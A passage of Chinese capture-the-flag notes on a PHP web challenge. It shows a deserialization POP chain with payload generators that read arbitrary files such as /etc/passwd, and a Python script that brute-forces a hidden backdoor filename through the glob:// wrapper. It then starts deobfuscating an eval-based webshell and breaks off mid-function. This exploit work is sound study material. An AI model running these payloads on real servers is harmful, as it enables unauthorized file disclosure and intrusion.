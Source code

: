 		      public function __toString(){
		          global $CanRead;
		          $CanRead = true;
		          return (new Funny($this->secret))->name;
		      }
		  }
		  ```
	- 利用POP链读取任意文件
	  id:: 644a346b-a944-4ecb-a400-794cce1e04b1
		- 首先让`CanRead`为true的链是这个：`Fun::__wakeup --> Fun::__toString --> $CanRead = true;`
			- 虽然在让`CanRead`为true时就可以读取文件，但是这里无法绕过`backdoor`的限制，不选择使用
		- 之后简单地让`Funny`反序列化就行
		- payload生成
			- ```php
			  // Fun::__wakeup --> Fun::__toString --> $CanRead = true;
			  
			  $fun1 = new Fun();
			  $fun1 -> secret = new Fun();
			  $fun1 -> secret -> secret = "/etc/passwd";
			  $funny = new Funny($_GET["file"]);
			  
			  
			  echo base64_encode(serialize([$fun1, $funny]));
			  
			  ```
	- 利用glob判断文件是否存在
		- scandir在某些配置下可以接受`glob://`伪协议，读取结果是glob对应的所有文件
		- 所以我们可以通过`glob://`伪协议加上`backdoor*.php`这样的glob判断对应的glob存不存在
		- 所以可以从`backdoor_`开始一位一位往后猜
		- 首先可以通过这个生成利用`SFile`调用`scandir`的payload
		  id:: 644a3616-7de8-4241-822d-a5bb9495f5f6
			- ```php
			  $fun = new Fun();
			  $fun -> secret = new SFile($_GET["file"]);
			  
			  echo base64_encode(serialize($fun));
			  
			  ```
		- 然后直接爆
			- ```python
			  known = "backdoor_"
			  while len(known) < len("backdoor_xxxxxx"):
			      guess = known + random.choice("1234567890abcdef")
			      payload = payload_scandir("glob://./{}*php".format(guess))
			      r = requests.get(url, params = {
			          "p": payload
			      })
			      if "Not null" in r.text:
			          print(guess)
			          known = guess
			  
			  payload = get_base64_payload("./{}.php".format(known))
			  r = requests.get(url, params = {
			      "p": payload
			  })
			  print(r.text)
			  ```
			- `payload_scandir`生成调用 ((644a3616-7de8-4241-822d-a5bb9495f5f6)) 后的结果
			- `get_base64_payload`生成调用 ((644a346b-a944-4ecb-a400-794cce1e04b1)) 的结果
	- php webshell反混淆
		- 题目所给后门使用了多层eval,我们可以写一个`evall`函数，然后将`eval`替换成`evall`来获得每层eval的结果
		- `evall`的实现
			- ```php
			  function evall($s){
			      echo $s;
			      echo "\n---\n";
			      eval(str_replace("eval(", "evall(", $s));